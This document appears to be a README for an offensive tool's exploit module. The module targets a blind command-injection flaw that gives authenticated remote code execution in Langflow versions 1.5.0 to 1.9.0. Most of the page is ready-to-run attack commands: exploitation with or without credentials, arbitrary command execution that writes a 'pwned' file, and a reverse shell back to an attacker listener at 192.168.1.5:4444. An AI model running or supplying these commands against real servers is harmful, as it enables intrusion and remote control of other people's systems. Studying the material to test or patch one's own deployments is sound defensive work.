






# CVE Description
**CVE Description:** Authenticated remote code execution vulnerability that allows an attacker to execute arbitrary code under the context of the running Langflow process. The vulnerability stems from a flaw in how the Langflow STDIO service launches processes through system shells.

**Impacted Versions:** Versions 1.5.0 through 1.9.0


# Exploit Module

## Default Mode
**NOTE:** Due to the nature of this vulnerability, exploit failure / success is not returned in the Langflow HTTP response, making the exploit for this vulnerability a blind command injection.

### Auto Login Enabled
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-93674
```




### Auto Login Disabled
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-93674 --username root --password root
```




## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-93674 --command "echo 'pwned' > /tmp/pwned.txt"
```

**NOTE:** Due to the nature of this vulnerability, exploit failure / success is not returned in the Langflow HTTP response, making the exploit for this vulnerability a blind command injection.

### FlowHound CLI Output


### Langflow Docker Container Filesystem Artifact



## Reverse TCP Persistent Connection
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-93674 --reverse_shell 192.168.1.5:4444
```

### FlowHound CLI Output



### Ncat Output

